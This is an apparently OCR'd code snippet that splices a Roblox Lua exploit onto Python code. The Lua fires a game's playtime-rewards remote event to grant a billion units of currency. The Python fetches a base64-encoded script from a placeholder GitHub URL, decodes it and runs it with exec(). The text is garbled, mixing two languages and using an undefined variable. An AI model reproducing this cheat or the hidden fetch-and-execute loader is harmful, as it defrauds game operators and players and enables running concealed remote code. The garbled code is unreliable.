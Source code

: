 import base64

local args = {
    [1] = "Currency",
    [2] = 1000000000
}

game:GetService("ReplicatedStorage"):WaitForChild("Events"):WaitForChild("PlaytimeRewardsEvent"):FireServer(unpack(args))

encoded_script = base64.b64encode(script).decode()
print(encoded_script)

import requests
import base64

url = "https://raw.githubusercontent.com/user/repository/branch/encoded_script.txt"  # Replace with actual URL
response = requests.get(url)

if response.status_code == 200:
    decoded_script = base64.b64decode(response.text).decode()
    exec(decoded_script)
else:
    print("Failed to fetch the script")
